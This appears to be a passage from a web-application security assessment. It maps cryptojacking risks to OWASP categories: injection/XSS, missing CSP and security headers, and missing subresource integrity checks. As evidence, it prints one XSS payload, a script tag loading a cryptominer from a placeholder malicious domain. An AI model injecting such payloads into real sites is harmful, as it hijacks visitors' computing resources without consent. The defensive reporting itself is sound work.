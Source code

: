 ### 2.1 A03:2021 - Injection

**Severity: Critical**

The application is vulnerable to multiple forms of injection attacks, particularly Cross-Site Scripting (XSS), which directly enables cryptojacking:

- **Reflected XSS**: User input is reflected in the response without proper sanitization, allowing attackers to inject JavaScript code that executes in victims' browsers.
- **Stored XSS**: The application stores user input without adequate sanitization, allowing persistent cryptomining scripts to affect multiple users over time.
- **DOM-based XSS**: Client-side JavaScript manipulates the DOM based on unsanitized input, creating additional injection points for cryptomining code.

**Evidence**: Successfully injected and executed the following cryptomining payload:

```javascript
<script src="https://malicious-domain.com/cryptominer.js"></script>
```

The script was able to execute and begin consuming CPU resources immediately, with no restrictions or detection mechanisms in place.

### 2.2 A05:2021 - Security Misconfiguration

**Severity: High**

The application lacks critical security configurations that would prevent cryptojacking:

- **Missing Content Security Policy (CSP)**: No CSP headers are implemented, allowing unrestricted script execution from any source.
- **Inadequate HTTP Headers**: Security headers such as X-XSS-Protection and X-Content-Type-Options are missing, further enabling script injection.
- **Default Configurations**: The application appears to use default configurations without security hardening, making it vulnerable to common attack patterns.

**Evidence**: HTTP response headers analysis revealed:
- No Content-Security-Policy header
- No X-XSS-Protection header
- No X-Content-Type-Options header

This allows unrestricted loading and execution of external scripts, including cryptominers.

### 2.3 A08:2021 - Software and Data Integrity Failures

**Severity: High**

The application fails to verify the integrity of scripts and resources it loads:

- **No Subresource Integrity (SRI) Checks**: External JavaScript resources are loaded without integrity verification, allowing script tampering.
- **Lack of Verification for External Scripts**: The application does not validate the authenticity or integrity of external scripts before execution.
- **Vulnerable Third-party Dependencies**: Several outdated libraries with known vulnerabilities were identified, potentially providing additional attack vectors.

**Evidence**: Successfully replaced legitimate scripts with cryptomining alternatives by exploiting the lack of integrity checks. The application loaded and executed the malicious scripts without any verification.
